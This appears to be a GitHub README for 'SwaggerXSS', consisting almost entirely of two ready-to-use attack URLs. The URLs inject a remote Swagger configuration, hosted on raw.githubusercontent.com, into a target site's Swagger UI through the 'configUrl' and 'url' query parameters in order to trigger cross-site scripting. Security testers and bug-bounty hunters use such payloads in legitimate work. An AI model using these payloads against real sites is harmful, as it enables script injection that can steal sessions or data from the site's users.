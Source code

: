 # SwaggerXSS

target.com/index.html?configUrl=https://raw.githubusercontent.com/IamTADI/SwaggerXSS/main/swaggerxss2.json

target.com/index.html?url=https://raw.githubusercontent.com/IamTADI/SwaggerXSS/main/swaggerxss2.yaml
